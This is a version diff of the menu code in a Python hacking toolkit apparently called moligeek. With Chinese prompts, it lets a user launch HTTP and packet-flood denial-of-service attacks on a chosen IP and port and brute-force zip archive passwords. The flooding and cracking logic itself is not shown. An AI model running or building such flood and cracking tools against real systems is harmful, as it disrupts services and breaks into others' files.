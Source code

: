 ### Comparing `moligeek-1.0.5/moligeek/__init__.py` & `moligeek-1.0.6/moligeek/__init__.py`

 * *Files 2% similar despite different names*

```diff
@@ -105,40 +105,37 @@
             try:
                 speed = int(input("请输入攻击速度(小心卡死自己):"))
                 speed = speed if speed > 0 else 10
             except:
                 print("设置错误，默认为10")
                 speed = 10
             a = network.Attack(url,speed)
-            t = threading.Thread(target=a.startattack, args=())
-            t.start()
-            while True:
+            a.run()
+            while a.start:
                 print("\r已发送{}个包，失效{}个包".format(
                 a.collector['success'] + a.collector['err'],
                 a.collector['err']
             ), end="")
     elif mainmode in ["2", "network"]:
         target_ip = input("请输入目标ip:")
         mode = input("请选择模式:\n[1]泛洪攻击\n[2]洪攻击\n[3]ping\n")
 
         if mode in ["1", "泛洪攻击"]:
             print("\033[31m注意！此功能极有可能耗尽你的宽带\033[0m")#红色字体
             port = int(input("请输入起始端口:"))
             d = network.Ddos(target_ip, port = port)
-            t = threading.Thread(target=d.all, args=())
-            t.start()
-            while True:
+            d.all()
+            while d.start:
                 print ("\r已发送 %s 个包到 %s 通过端口:%s"%(d.data['sent'],d.ip,d.data['port']),end="")
         if mode in ["2", "洪攻击"]:
             print("\033[31m注意！此功能极有可能耗尽你的宽带\033[0m")#红色字体
             port = int(input("请输入目标端口:"))
             d = network.Ddos(target_ip, port = port)
-            t = threading.Thread(target=d.one, args=())
-            t.start()
-            while True:
+            d.one()
+            while d.start:
                 print ("\r已发送 %s 个包到 %s 通过端口:%s"%(d.data['sent'],d.ip,d.port),end="")
         if mode in ["3", "ping"]:
             print("pinging...")
             print(network.ping(target_ip))
     elif mainmode in ["3", "LAN"]:
         mode = input("请选择模式:\n[1]设备扫描\n")
 
@@ -163,14 +160,15 @@
             textlengh = int(input("每组字数:"))
             print(encode.fence.decrypt(codetext, textlengh))
 
     elif mainmode in ["5", "压缩包破解"]:
         zip_path = input("请输入压缩包路径:")
         mode = input("请选择破解模式:\n[1]纯数字\n[2]数字字母混合\n[3]数字字母符号混合\n")
         if mode in ["1", "纯数字"]:
-            print(zip.zipkey(zip_path,0))
+            password,time = zip.zipkey(zip_path,0)
         if mode in ["2", "数字字母混合"]:
```
